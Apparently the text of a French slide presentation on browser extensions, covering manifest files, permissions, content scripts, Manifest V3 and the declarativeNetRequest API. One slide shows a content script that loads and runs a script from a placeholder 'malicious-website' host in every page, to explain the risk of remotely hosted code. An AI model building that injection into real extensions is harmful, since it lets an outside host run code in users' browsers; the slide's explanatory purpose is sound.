


Repose sur des technologies web
Composée de HTML, CSS, JS

permet de configurer son extension, déclarer des permissions
{
"name": "My extension",
"version": "1.0.0",
"manifest_version": 3,
"permissions": [ "activeTab", "storage" ],
"background": {
"service_worker": "background.js"
}
}
Supporté actuellement par:
Permissions "irrévocables" accordées lors de l'installation de l'extension

{
"content_scripts": [{
"matches": ["<all_urls>"],
"js": [
"inject/index.js"
],
}]
}
Possibilité d'exécuter du code hébergé à distance (Chrome)
// content-script.js
// this code injects remote code into your web page !
const el = document.createElement("script");
el.src = "https://malicious-website/index.js";
el.crossOrigin = "anonymous";
document.body.prepend(el);
✨ "More privacy, performance, security"
Sorti sur Chrome mi-janvier 2021
Supporté uniquement par Chrome pour le moment.
Firefox et Edge seront compatibles à terme (partiellement néanmoins, comme pour le MV2)
{
"name": "My Extension",
"version": "1.0.0"
"permissions": [
"activeTab"
],
"manifest_version": 3
}
[{
"id": 1,
"priority": 1,
"action": { "type": "block" },
"condition": {
"urlFilter": "analytics.js",
"resourceTypes": ["script"]
}
}]
Nécessité de packager ses dépendances pour la publication de son extension
chrome.storage.sync.set({ color: 'green' });
Web Request Api
VS
Declarative Net Request API